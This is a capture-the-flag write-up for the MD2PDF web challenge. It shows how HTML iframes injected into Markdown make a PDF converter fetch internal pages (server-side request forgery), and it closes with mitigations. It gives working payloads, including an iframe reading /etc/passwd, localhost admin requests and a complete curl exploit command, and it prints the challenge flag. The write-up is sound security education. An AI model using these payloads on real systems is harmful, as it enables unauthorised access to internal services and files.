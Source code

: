 
---

# CTF Write-Up: MD2PDF (SSRF)

**Category:** Web  
**Challenge Name:** MD2PDF  
**Description:**  
> TopTierConversions LTD is proud to announce its latest and greatest product launch: MD2PDF. This easy-to-use utility converts markdown files to PDF and is totally secure! Right...?

## Executive Summary

This challenge involved exploiting a Server-Side Request Forgery (SSRF) vulnerability in a web application that converted user-supplied Markdown to PDF. By injecting HTML tags into the Markdown input, an attacker could force the server to make HTTP requests to its internal network. This led to the discovery of a restricted admin panel only accessible via localhost, which contained the flag.

## Tools Used

*   **Nmap:** For initial reconnaissance and port scanning.
*   **cURL:** For automating HTTP POST requests to the vulnerable endpoint.
*   **Browser/Developer Tools:** To analyze the web application's source and network activity.

## Reconnaissance

An initial `nmap` scan revealed two open ports running what appeared to be the same web service:
*   `Port 80`: Standard HTTP
*   `Port 5000`: Commonly used for Python Flask applications

```bash
nmap -A <TARGET_IP>
```

## Vulnerability Analysis

The web application presented a simple interface with a textarea for inputting Markdown and a button to convert it to PDF.

Analyzing the client-side source code revealed the application's workflow:
1.  User input was sent via a **POST** request to the `/convert` endpoint.
2.  The form data field was named **`md`**.

The core vulnerability was that the backend PDF generation engine (likely WeasyPrint or wkhtmltopdf) processed HTML tags embedded within the Markdown. This allowed for the injection of elements like `<iframe>`, `<img>`, and `<object>`, whose `src` attributes could be manipulated to point to internal resources.

## Exploitation Steps

### 1. Initial Testing

The first step was to test for Local File Inclusion (LFI) using the `file://` protocol.

**Payload:**
```html
<iframe src="file:///etc/passwd" width="1000" height="1000"></iframe>
```
**Result:** The server returned a `400 Bad Request` with the message `"Something went wrong generating the PDF"`. This indicated the payload was being processed but was causing an error, suggesting the `file://` protocol might be blocked or unsupported in this context.

### 2. Pivoting to SSRF

The next approach was to try Server-Side Request Forgery (SSRF) using the `http://` protocol to target the server's internal services, notably the Flask app on port 5000.

**Payload:**
```html
<iframe src="http://127.0.0.1:5000/" width="1000" height="1000"></iframe>
```
**Result:** This also resulted in an error. However, testing various paths led to a critical discovery.

### 3. Discovering the Admin Endpoint

Attempting to access a common restricted path, `/admin`, yielded a different response.

**Payload:**
```html
<iframe src="http://127.0.0.1:5000/admin" width="1000" height="1000"></iframe>
```
**Result:** The PDF generation process now included a `403 Forbidden` error message from the internal application:
`"This page can only be seen internally (localhost:5000)"`.

This was the smoking gun. It **confirmed SSRF was working** and identified a restricted endpoint designed only for internal access.

### 4. Retrieving the Flag

Requesting the `/admin` endpoint again via the SSRF vulnerability successfully fetched its contents and rendered them into the resulting PDF file.

**Final Payload:**
```html
<iframe src="http://127.0.0.1:5000/admin" width="1000" height="1000"></iframe>
```
**Execution with cURL:**
```bash
echo '<iframe src="http://127.0.0.1:5000/admin" width="1000" height="1000"></iframe>' | curl -X POST http://<TARGET_IP>/convert -F "md=<-" -o flag.pdf
```
Opening the generated `flag.pdf` file revealed the flag.

## The Flag

**`flag{1f4a2b6ffeaf4707c43885d704eaee4b}`**

## Mitigation Strategies

To prevent such vulnerabilities, developers should:

1.  **Input Sanitization:** Strictly validate and sanitize user input to whitelist only safe Markdown and HTML constructs. Use libraries that strip dangerous tags.
2.  **Network Segmentation:** Restrict the backend application's ability to make requests to the internal network or the internet. Use firewall rules to block unnecessary outbound traffic from the PDF generation service.
3.  **Allow Lists for URLs:** If the application must fetch remote resources, implement a strict allow list of permitted domains and protocols.
4.  **Use Sandboxed Environments:** Run the PDF generation process in a tightly sandboxed or containerized environment with minimal permissions.

## Conclusion

The MD2PDF challenge was a excellent example of a SSRF vulnerability arising from the unsafe processing of user-controlled input. The key to success was:
*   Understanding the attack surface (HTML injection in Markdown).
*   Pivoting from a blocked vector (LFI) to a working one (HTTP-based SSRF).
*   Enumerating internal endpoints to find a critical, restricted asset (`/admin`).

This challenge highlights the dangers of trusting user input and the importance of proper network segmentation.
